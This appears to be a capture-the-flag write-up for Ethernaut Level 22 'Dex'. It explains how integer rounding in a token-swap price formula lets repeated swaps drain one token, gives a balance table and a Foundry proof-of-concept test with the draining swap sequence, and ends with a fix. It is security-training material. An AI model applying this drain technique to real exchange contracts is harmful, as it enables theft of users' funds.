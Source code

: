 # Level 22 - Dex

## Objectives

- Drain all of at least 1 of the 2 tokens from the contract, and allow the contract to report a "bad" price of the assets.

## Contract Overview

`Dex` is a contract or decentralized exchange platform that deals with token swapping and exchange. The Dex contract has a balance of 100 tokens each.

## Static analysis (slither)

Here are the logs from the slither:

![alt text](https://github.com/matrix-0wl/ethernaut-solutions-foundry/blob/master/img/Dex_slither.png)

## Finding the weak spots

The weak spot of the contract is function `getSwapPrice()` that is prone to rounding error and price manipulation attack.

```solidity
  function getSwapPrice(address from, address to, uint amount) public view returns(uint){
    return((amount * IERC20(to).balanceOf(address(this)))/IERC20(from).balanceOf(address(this)));
  }
```

This function is taking addresses for both the tokens and the amount of from tokens to be swapped and calculates the amount of to tokens. The following formula is used:
`The number of token2 to be returned = (amount of token1 to be swapped * token2 balance of the contract)/token1 balance of the contract.`

This is the vulnerable function. We will be exploiting the fact that there are no floating points in solidity which means whenever the function will do a division, the result will be a fraction. Since there are no decimals and floating points, the token amount will be rounded off towards zero. Therefore, by making continuous token swaps from token1 to token2 and back, we can decrease the total balance of one of the tokens in the contract to zero. The precision loss will automatically do the job for us.

## Potential attack scenario (hypothesis)

Attacker has to swap all token1 for token2. Then swap all token2 for token1. And repeat this process until he drains all token1.

## Plan of the attack and calculations

1. Initially Dex has a balance of 100 for both the tokens and the attacker has a balance of 10 each.
2. The attacker makes a token swap from token1 to token2 for 10 tokens. Dex will have 110 token1 and 90 token2 whereas the user will have 0 token1 and 20 token2.
3. Now, when the user swaps 20 token2 for token1, the formula will return the following:
   `Number of token1 tokens returned = (20 * 110)/90 = 24.44`
   This value will be rounded off to 24. This means Dex will now have 86 token1, and 110 token2 and attacker will have 24 token1 and 0 token2.
4. On each token swap, we are left with more tokens than held previously.
5. Once reached a value of 65 tokens for either token1 or token2, attacker can do another swap to drain the balance of one of the tokens from Dex. `((65\*110)/45 = 158)`

| Dex | User | | |
|token1 | token2 | token1 | token2 |
|-------|---|---|---|
|100 | 100 | 10 | 10|
|110 | 90 | 0 | 20|
|86 | 110 | 24 | 0|
|110 | 80 | 0 | 30|
|69 | 110 | 41 | 0|
|110 | 45 | 0 | 65|
|0 | 90 | 110 | 20|

This means that in the final step if attacker needs to drain 110 token1, the amount of token2 to be swapped is `(65 * 110)/158 = 45`. This will bring the token1 balance of the Dex to 0.

## Proof of Concept

Here is a simplified version of the unit test exploiting the vulnerability ([complete version here](https://github.com/matrix-0wl/ethernaut-solutions-foundry/blob/master/test/22-Dex.t.sol))

```solidity
    // Approve the dex to manage all of our token
        token1.approve(address(level), 2 ** 256 - 1);
        token2.approve(address(level), 2 ** 256 - 1);

        emit log_named_uint(
            "Token1 balance of Dex before attack is",
            level.balanceOf(address(token1), address(level))
        );

        emit log_named_uint(
            "Token2 balance of Dex before attack is",
            level.balanceOf(address(token2), address(level))
        );

        level.swap(address(token1), address(token2), 10);
        level.swap(address(token2), address(token1), 20);
        level.swap(address(token1), address(token2), 24);
        level.swap(address(token2), address(token1), 30);
        level.swap(address(token1), address(token2), 41);
        level.swap(address(token2), address(token1), 45);

        assertEq(
            token1.balanceOf(address(level)) == 0 ||
                token2.balanceOf(address(level)) == 0,
            true
        );

        emit log_string(
            "--------------------------------------------------------------------------"
        );

        emit log_named_uint(
            "Token1 balance of Dex after attack is",
            level.balanceOf(address(token1), address(level))
        );

        emit log_named_uint(
            "Token2 balance of Dex after attack is",
            level.balanceOf(address(token2), address(level))
        );
```

Here are the logs from the exploit contract:

![alt text](https://github.com/matrix-0wl/ethernaut-solutions-foundry/blob/master/img/Dex.png)

## Recommendations

When doing calculations related to any sensitive asset such as tokens, careful attention should be paid to precision since there are no floating points in solidity, precision is lost as numbers are rounded off leading to exploits.

## References

- [Blog Aditya Dixit](https://blog.dixitaditya.com/series/ethernaut)
- [Blog Stermi](https://stermi.xyz/blog/ethernaut-challenge-21-solution-dex)

## Acknowledgements

The structure of my reports is based on the insights provided by:

- [ChmielewskiKamil](https://github.com/ChmielewskiKamil/ethernaut-foundry)
- [Joran Honig Twitter thread](https://twitter.com/joranhonig/status/1539578735631949825?s=20&t=Kp6iDNXfRKQUBbsb_Yj5SQ)
